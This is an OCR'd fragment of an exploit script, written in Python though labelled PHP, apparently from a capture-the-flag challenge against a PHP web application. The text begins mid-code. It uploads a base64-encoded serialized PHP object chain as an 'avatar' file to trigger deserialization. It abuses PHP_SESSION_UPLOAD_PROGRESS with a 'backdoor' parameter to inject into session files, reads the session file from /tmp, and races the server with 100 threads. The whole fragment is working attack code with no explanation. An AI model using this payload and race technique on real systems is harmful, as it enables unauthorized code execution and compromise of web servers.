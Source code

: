 ```php
        "avatar":("Config",base64.b64decode("QzoxMToiQXJyYXlPYmplY3QiOjI5ODp7eDppOjA7YToxOntzOjQ6ImV2aWwiO086NToiQWRtaW4iOjM6e3M6NjoiQ29uZmlnIjtPOjY6IkNvbmZpZyI6Nzp7czo1OiJ1bmFtZSI7TjtzOjY6InBhc3N3ZCI7TjtzOjY6ImF2YXRhciI7TjtzOjg6Im5pY2tuYW1lIjtPOjM6IkxvZyI6MTp7czo0OiJkYXRhIjtzOjExOiJsb2dfc3RhcnQoKSI7fXM6Mzoic2V4IjtOO3M6NDoibWFpbCI7TjtzOjY6InRlbG51bSI7Tjt9czo1OiJ1bmFtZSI7czo1OiJhZG1pbiI7czo2OiJwYXNzd2QiO3M6MzI6IjUwYjk3NDgyODk5MTA0MzZiZmRkMzRiZGE3YjFjOWQ5Ijt9fTttOmE6MDp7fX0=").decode())  
    }  
    # O:5:"Admin":4:{s:6:"Config";N;s:8:"nickname";O:3:"Log":1:{s:4:"data";s:11:"log\_start()";}s:5:"uname";s:5:"admin";s:6:"passwd";s:32:"50b9748289910436bfdd34bda7b1c9d9";}  
    res = requests.post(url=url,params=params,data=data,files=files)  
    print(res.text)  
    # if "ok" in res.text:  
    if "log\_tostring" in res.text:  
        print(res.text)  
        sys.exit()  
​  
def index():  
    requests.get(url=url)  
​  
def test\_log\_session():  
    headers={  
        "Cookie":"PHPSESSID=123"  
    }  
    params={  
        "uname":"admin",  
        "passwd":"1q2w3e",  
        "backdoor":"session\_start"  
    }  
    data={  
        "$SESSION":"123",  
        "m":"edit",  
        "PHP\_SESSION\_UPLOAD\_PROGRESS":"123"  
    }  
    files={  
            "avatar":("uploadxxxx",base64.b64decode("QzoxMToiQXJyYXlPYmplY3QiOjI5ODp7eDppOjA7YToxOntzOjQ6ImV2aWwiO086NToiQWRtaW4iOjM6e3M6NjoiQ29uZmlnIjtPOjY6IkNvbmZpZyI6Nzp7czo1OiJ1bmFtZSI7TjtzOjY6InBhc3N3ZCI7TjtzOjY6ImF2YXRhciI7TjtzOjg6Im5pY2tuYW1lIjtPOjM6IkxvZyI6MTp7czo0OiJkYXRhIjtzOjExOiJsb2dfc3RhcnQoKSI7fXM6Mzoic2V4IjtOO3M6NDoibWFpbCI7TjtzOjY6InRlbG51bSI7Tjt9czo1OiJ1bmFtZSI7czo1OiJhZG1pbiI7czo2OiJwYXNzd2QiO3M6MzI6IjUwYjk3NDgyODk5MTA0MzZiZmRkMzRiZGE3YjFjOWQ5Ijt9fTttOmE6MDp7fX0=").decode())  
    }  
    tmp1 = os.system('cat /tmp/php-sessions/sess\_123')  
    res = requests.post(url=url,headers=headers,params=params,data=data,files=files)  
    tmp2 = os.system('cat /tmp/php-sessions/sess\_123')  
    print(res.text)  
​  
​  
if \_\_name\_\_ == "\_\_main\_\_":  
    event = threading.Event()  
    for i in range(100):  
\#         threading.Thread(target=reset).start()  
        threading.Thread(target=write\_php).start()  
        threading.Thread(target=index).start()  
​
```
